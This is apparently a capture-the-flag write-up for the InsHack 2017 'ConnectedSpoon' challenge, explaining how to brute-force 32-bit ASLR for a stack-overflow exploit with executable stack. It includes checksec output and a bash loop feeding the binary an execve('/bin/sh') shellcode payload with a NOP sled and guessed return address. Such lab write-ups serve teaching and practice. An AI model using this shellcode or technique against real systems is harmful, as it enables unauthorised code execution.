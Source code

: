 ```yaml
---
title: "ConnectedSpoon | InsHack 2017"
tags: ["pwn", "stack_overflow", "shellcode", "ASLR"]
points: 150
solves: 42
---
```


Who knew bruteforcing ASLR on 32 bit was so easy!

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     ENABLED           (<- we CANNOT reliably know where the stack is)
```

## Solution
This is very similar to crazy-minitel, so I will assume you have read that [writeup](CrazyMinitel), and just focus on what's new: `ASLR`! One other change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger nop sled.

With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte `\xbf` never changed. So that's **8 bits** we don't need to guess.
 - We have a NOP SLED of around 2000 bytes, and, since `2^11 = 2048`, we can get another free **11 bits**.

This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average around **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```